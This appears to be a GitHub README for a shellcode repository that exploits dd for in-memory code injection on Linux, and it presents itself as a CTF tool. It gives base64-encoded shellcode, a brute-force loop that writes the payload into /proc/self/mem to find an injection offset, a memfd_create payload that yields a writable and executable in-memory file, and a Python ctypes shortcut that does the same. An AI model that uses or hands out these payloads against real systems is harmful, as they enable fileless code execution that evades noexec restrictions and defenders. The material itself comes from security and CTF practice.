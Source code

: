# Shellcodes developed for exploiting dd

This is based on the article: [Pure In-Memory (Shell)Code Injection In Linux Userland](https://blog.sektor7.net/#!res/2018/pure-in-memory-linux.md). Please read it to properly understand what is happening.

The only difference in this work is that instead of manually selecting
the injection point, a trial and error approach is used. This is much
nosier as it generates lots of segfaults, but fine for CTFs.

The below files are in the repo:

* hello.S

    * is just a trivial "hello world" for testing build system

* hello-with-dup.S

    * uses dup2 to copy fd 33 to fd 0 and fd 34 to fd 1
    * this is required as dd will probably have closed/remapped rd 0 and 1
    * primary purpose of this shell code is to identify an injection point in dd
    * typically used as (with the correct offset will print "Hello World":
    
        ```
        $ dd if=hello-with-dup.bin of=/proc/self/mem bs=1 seek=??? conv=notrunc status=none 33<&0 34>&1
        ```

* memfd.S

    * only creates a memmapped fd and then pauses
    * its smallher than hello-with-dup.S so if hello-with-dup.S works, this can be put in-situ


## Usage:

1. build the hello-with-dup.bin shell code:

    ```
    $ make hello-with-dup.bin
    ```

    On the target system, run dd
    ```
    $ dd if=/proc/self/maps status=none | grep xp
    00400000-00411000 r-xp 00000000 fd:00 265421                             /bin/dd
    7fa964acf000-7fa964c8f000 r-xp 00000000 fd:00 269671                     /lib/x86_64-linux-gnu/libc-2.23.so
    7fa964e99000-7fa964ebf000 r-xp 00000000 fd:00 269649                     /lib/x86_64-linux-gnu/ld-2.23.so
    7fffd8d43000-7fffd8d45000 r-xp 00000000 00:00 0                          [vdso]
    ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]
    ```

    Here the first line shows the executable region.
    * use setarch to disable aslr if needed

    If needed, increase the size of the shellcode inscase of looking to inject larger ones.
    * i.e. use `truncate -s ??? hello-with-dup.bin`

2. Find offset

    Then, using the executable region of dd search over the process space for injection point:

    ```
    $ for x in {4194304..4263936} ; do echo trying $x ; if echo '6AAAAABbuCEAAACJxzH2DwWJ+P/H/8YPBYnHSIneSIHGMAAAALoMAAAADwW4PAAAADH/DwVIZWxsbyBXb3JsZAo=' | base64 -d | dd of=/proc/self/mem bs=1 seek=${x} conv=notrunc status=none 33<&0 34>&1 2>/dev/null | grep Hello ; then echo done $x;  break ; fi ; done
    ```

    On some systems its will pause on some sizes and need to be manuall killed and continued from next index.


3. Inject

    Once this finds the offset, its a simple matter to inject a useful shell code.

    Below shows memfd.S

    ```
    $ make memfd.bin
    $ base64 -w 0 memfd.bin
    6AAAAABfuD8BAABIgccYAAAAMfYPBbgiAAAADwVGSUxFAA==
    ```

    Update below with offset obtained from step 2
    ```
    $ echo '6AAAAABfuD8BAABIgccYAAAAMfYPBbgiAAAADwVGSUxFAA==' | base64 -d | dd of=/proc/self/mem bs=1 seek=??? conv=notrunc status=none
    ```

    This should now hang.
    * suspend (CTRL-Z) dd
    * look int the `/proc/???/fd` for dd
    * there should be a writable/executable file owned by current user

## Conclusions

On many systems, all this is not necessary to exploit `dd` providing
there is a recent `libc` (greater >= 2.27) and python available.

In these cases, its possible to use types `ctypes` python module to
directly call `memfd_create` syscall.

E.g.:

```
In [1]: from ctypes import *
In [2]: libc = cdll.LoadLibrary("libc.so.6")

In [3]: libc.memfd_create
Out[3]: <_FuncPtr object at 0x7fe2789c5e80>

In [4]: libc.memfd_create("FILE", 0)
Out[4]: 17
```

## Other bits

Copyright Karim Kanso 2020. All rights reserved. Work licensed under GPLv3.
